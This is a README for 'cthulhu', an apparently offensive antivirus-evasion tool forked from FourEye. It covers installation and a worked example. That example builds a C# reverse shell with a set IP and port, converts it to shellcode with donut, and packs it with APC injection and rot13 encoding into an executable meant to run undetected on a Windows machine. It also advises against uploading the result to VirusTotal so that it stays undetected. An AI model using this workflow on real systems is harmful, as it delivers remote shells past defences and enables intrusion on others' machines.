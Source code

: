 # cthulhu

AV Evasion, a FourEye fork

# Install

git clone https://github.com/foxlox/cthulhu
cd cthulhu
chmod 755 setup.sh
./setup.sh

python3 cthulu.py
    
    
![immagine](https://user-images.githubusercontent.com/28823598/128512455-1bad09e2-9616-4333-ad37-db895705ff02.png)
  
    
![immagine](https://user-images.githubusercontent.com/28823598/128512283-4e75f989-f5fd-4e54-b954-7741fc231add.png)


# Example

Create a new Visual Studio C# Console Project
Add reverse.cs and set IP and PORT
Build it
go to Linux box

$ donut compiledapp.exe -o ca.bin

$ python3 cthulhu.py -method apc -arch x86 -bin ca.bin -enc rot13
[+]shellcode created: /tmp/shellcode.exe

Copy shellcode.exe on Windows box and run it. Don't remember to start your Antivirus.

Don't upload your shellcode.exe on Virustotal

    *fox
    
